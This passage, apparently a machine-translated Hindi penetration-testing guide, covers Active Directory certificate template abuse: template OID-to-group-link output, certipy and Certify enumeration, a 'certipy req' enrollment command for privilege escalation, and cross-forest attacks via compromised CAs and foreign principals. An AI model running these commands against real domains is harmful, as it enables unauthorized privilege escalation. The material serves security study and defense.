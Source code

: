 ```powershell
Certificate template Name: VulnerableTemplate
OID DisplayName: 1.3.6.1.4.1.311.21.8.3025710.4393146.2181807.13924342.9568199.8.4253412.23541150
OID DistinguishedName: CN=23541150.FCB720D24BC82FBD1A33CB406A14094D,CN=OID,CN=Public Key Services,CN=Services,CN=Configuration,DC=domain,DC=local
OID msPKI-Cert-Template-OID: 1.3.6.1.4.1.311.21.8.3025710.4393146.2181807.13924342.9568199.8.4253412.23541150
OID msDS-OIDToGroupLink: CN=VulnerableGroup,CN=Users,DC=domain,DC=local
------------------------
```
### दुरुपयोग स्थिति

`certipy find` या `Certify.exe find /showAllPermissions` का उपयोग करके एक उपयोक्ता अनुमति खोजें।

यदि `John` को `VulnerableTemplate` को नामांकित करने की अनुमति है, तो उपयोक्ता `VulnerableGroup` समूह की विशेषाधिकारों को अनुग्रहित कर सकता है।

इसके लिए केवल टेम्पलेट को निर्दिष्ट करना होगा, यह OIDToGroupLink अधिकारों वाला प्रमाणपत्र प्राप्त करेगा।
```bash
certipy req -u "John@domain.local" -p "password" -dc-ip 192.168.100.100 -target "DC01.domain.local" -ca 'DC01-CA' -template 'VulnerableTemplate'
```
## प्रमाणपत्रों के माध्यम से वनों को कमजोर करना स्वरूपित रूप में समझाया गया

### संकटित सीए के द्वारा वन विश्वास टोड़ना

**क्रॉस-वन नामांकन** के लिए विन्यास को अनुकूल बनाया जाता है। **संसाधन वन** से **मूल सीए प्रमाणपत्र** को प्रबंधकों द्वारा **खाता वनों में प्रकाशित किया जाता है**, और **संसाधन वन से उद्यम सीए** प्रमाणपत्र **प्रत्येक खाता वन में `NTAuthCertificates` और AIA कंटेनर में जोड़े जाते हैं**। स्पष्ट करने के लिए, यह व्यवस्था **संसाधन वन में सीए को पूर्ण नियंत्रण** प्रदान करती है सभी अन्य वनों पर जिनका पीकेआई वह प्रबंधित करता है। यदि यह सीए **हमलावरों द्वारा संकटित हो जाए**, तो सभी उपयोगकर्ताओं के लिए प्रमाणपत्र **उनके द्वारा जाली बनाए जा सकते हैं**, इसके फलस्वरूप सुरक्षा सीमा को वन का तोड़ दिया जा सकता है।

### विदेशी सिद्धांतों को नामांकन विशेषाधिकार प्रदान किए गए

मल्टी-वन परिवेशों में, सतर्कता की आवश्यकता है जो उन उद्यम सीए जो **प्रमाणपत्र टेम्पलेट प्रकाशित करते हैं** जिन्हें **प्रमाणित उपयोगकर्ता या विदेशी सिद्धांतों** (उपयोगकर्ता/समूह वन से बाहरी वन के लिए) **नामांकन और संपादन अधिकार** देते हैं।\
विश्वास के अधिकारण के अवसर पर, एडी द्वारा उपयोगकर्ता के टोकन में **प्रमाणित उपयोगकर्ता SID** जोड़ा जाता है। इस प्रकार, यदि किसी डोमेन के पास एक उद्यम सीए है जिसमें एक टेम्पलेट है जो **प्रमाणित उपयोगकर्ताओं को नामांकन अधिकार** देता है, तो एक टेम्पलेट को संभावित रूप से **एक विभिन्न वन से उपयोगकर्ता द्वारा नामांकन किया जा सकता है**। उसी प्रकार, यदि **टेम्पलेट द्वारा विदेशी सिद्धांत को नामांकन अधिकार विशेष रूप से प्रदान किए गए हों**, तो एक **वन से एक अन्य वन में टेम्पलेट में नामांकन करने की संभावना होती है**।

दोनों स्थितियाँ एक वन से दूसरे वन में **हमले की सतह में वृद्धि** करती है। प्रमाणपत्र टेम्पलेट की सेटिंग्स का दुरुपयोग एक हमलावर द्वारा एक विदेशी डोमेन में अतिरिक्त अधिकार प्राप्त करने के लिए किया जा सकता है।
